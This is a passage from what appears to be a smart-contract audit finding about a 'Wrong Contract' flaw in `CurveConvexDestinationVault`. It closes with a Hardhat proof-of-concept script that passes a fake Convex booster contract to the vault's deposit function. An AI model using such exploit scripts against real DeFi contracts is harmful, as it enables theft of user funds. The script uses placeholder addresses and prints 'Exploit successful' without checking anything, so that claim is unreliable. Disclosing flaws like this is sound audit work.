 3. **Rigorous auditing**: Any modifications to the `SystemRegistry.sol` or new contract implementations should undergo thorough testing and auditing to ensure no new vulnerabilities are introduced.

To summarize, while `SystemRegistry.sol` offers a robust system configuration mechanism, it doesn't directly mitigate the "Wrong Contract" vulnerability discussed. Thus, the recommendations focus on explicitly verifying external contracts before interactions. Implementing such a mechanism will greatly enhance the system's security against sophisticated exploitation patterns.

## POC

> **Why an attacker would execute such exploit?**

This exploit allows an attacker to mimic the functionality of a legitimate `booster` contract, thereby fooling the `CurveConvexDestinationVault` into trusting it. The ultimate objective could vary:

> * **Theft of Funds**: Redirect funds to a wallet controlled by the attacker.
> * **Price Manipulation**: Artificially inflate or deflate the price of assets.
> * **Denial of Service**: Freezing functionalities to cause panic and reputational damage.

A proper script to exploit the described vulnerability could look like this:

```javascript
const { ethers } = require("hardhat");

async function main() {
 const [deployer, attacker] = await ethers.getSigners();
 
 // Deploy the malicious IConvexBooster contract
 const FakeBoosterFactory = await ethers.getContractFactory("FakeIConvexBooster");
 const fakeBooster = await FakeBoosterFactory.connect(attacker).deploy();

 const VaultFactory = await ethers.getContractFactory("CurveConvexDestinationVault");
 const systemRegistryAddress = "SystemRegistryContractAddress"; // replace with actual address
 const defaultStakingRewardTokenAddress = "DefaultStakingRewardTokenAddress"; // replace with actual address
 const vault = await VaultFactory.connect(deployer).deploy(systemRegistryAddress, defaultStakingRewardTokenAddress);

 // Deposit funds, making the vault believe it's working with a legitimate booster
 const lpToken = await ethers.getContractAt("IERC20", "0xYourLPTokenAddress");
 const amountToDeposit = ethers.utils.parseUnits("10", 18);

 await lpToken.connect(attacker).approve(vault.address, amountToDeposit);
 await vault.connect(attacker).depositAndStake(fakeBooster.address, lpToken.address, "0xStakingAddress", amountToDeposit);
 
 console.log("Exploit successful. The vault is now under attacker's influence.");
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error);
    process.exit(1);
  });
```
